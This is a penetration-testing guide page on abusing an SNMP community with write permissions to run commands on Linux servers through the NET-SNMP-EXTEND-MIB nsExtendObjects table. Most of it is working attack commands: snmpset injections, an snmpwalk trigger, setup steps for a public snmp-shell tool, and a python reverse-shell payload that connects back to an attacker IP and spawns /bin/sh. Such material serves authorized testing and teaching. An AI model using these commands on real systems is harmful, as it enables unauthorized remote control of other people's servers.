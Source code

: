 # SNMP RCE

SNMP can be exploited by an attacker if the administrator overlooks its default configuration on the device or server. By **abusing SNMP community with write permissions (rwcommunity)** on a Linux operating system, the attacker can execute commands on the server.

## Extending Services with Additional Commands

To extend SNMP services and add extra commands, it is possible to append new **rows to the "nsExtendObjects" table**. This can be achieved by using the `snmpset` command and providing the necessary parameters, including the absolute path to the executable and the command to be executed:

```bash
snmpset -m +NET-SNMP-EXTEND-MIB -v 2c -c c0nfig localhost \
'nsExtendStatus."evilcommand"' = createAndGo \
'nsExtendCommand."evilcommand"' = /bin/echo \
'nsExtendArgs."evilcommand"' = 'hello world'
```

## Injecting Commands for Execution

Injecting commands to run on the SNMP service requires the existence and executability of the called binary/script. The **`NET-SNMP-EXTEND-MIB`** mandates providing the absolute path to the executable.

To confirm the execution of the injected command, the `snmpwalk` command can be used to enumerate the SNMP service. The **output will display the command and its associated details**, including the absolute path:
```bash
snmpwalk -v2c -c SuP3RPrivCom90 10.129.2.26 NET-SNMP-EXTEND-MIB::nsExtendObjects
```

## Running the Injected Commands

When the **injected command is read, it is executed**. This behavior is known as **`run-on-read()`** The execution of the command can be observed during the snmpwalk read.

### Gaining Server Shell with SNMP

To gain control over the server and obtain a server shell, a python script developed by mxrch can be utilized from [**https://github.com/mxrch/snmp-shell.git**](https://github.com/mxrch/snmp-shell.git).

Alternatively, a reverse shell can be manually created by injecting a specific command into SNMP. This command, triggered by the snmpwalk, establishes a reverse shell connection to the attacker's machine, enabling control over the victim machine.
You can install the pre-requisite to run this:

```bash
sudo apt install snmp snmp-mibs-downloader rlwrap -y
git clone https://github.com/mxrch/snmp-shell
cd snmp-shell
sudo python3 -m pip install -r requirements.txt
```

Or a reverse shell: 

```bash
snmpset -m +NET-SNMP-EXTEND-MIB -v 2c -c SuP3RPrivCom90 10.129.2.26 'nsExtendStatus."command10"' = createAndGo 'nsExtendCommand."command10"' = /usr/bin/python3.6 'nsExtendArgs."command10"' = '-c "import sys,socket,os,pty;s=socket.socket();s.connect((\"10.10.14.84\",8999));[os.dup2(s.fileno(),fd) for fd in (0,1,2)];pty.spawn(\"/bin/sh\")"'
```

## References
* [https://rioasmara.com/2021/02/05/snmp-arbitary-command-execution-and-shell/](https://rioasmara.com/2021/02/05/snmp-arbitary-command-execution-and-shell/)
